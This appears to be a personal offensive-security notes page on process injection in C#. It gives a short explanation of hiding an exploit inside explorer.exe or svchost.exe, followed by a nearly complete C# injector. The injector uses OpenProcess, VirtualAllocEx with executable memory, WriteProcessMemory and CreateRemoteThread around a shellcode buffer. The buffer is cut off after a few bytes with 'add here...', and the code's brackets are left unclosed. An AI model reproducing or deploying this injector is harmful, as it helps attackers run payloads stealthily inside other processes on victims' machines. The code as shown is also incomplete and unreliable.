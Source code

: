 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Process_Injection
---
```



<span style="font-size: 35px; color:red"><b>Process Injection in C Sharp</b></span>

How we can manually inject our code into other programs and migrate to different processes.
To extend the longevity of our exploit, we can execute it in a process that is unlikely to terminate (i.e. <span style="color:red">explorer.exe</span>, responsible of hosting the user's desktop experience, or <span style="color:red">svchost.exe</span> that performs network comms).

```cs
using System;
using System.Runtime.InteropServices;


namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804); //change process PID 4804 with PID of explorer.exe or whatever process you want to inject code in
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[591] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52, //add here...

                        IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```
Remember to migrate process after finished.
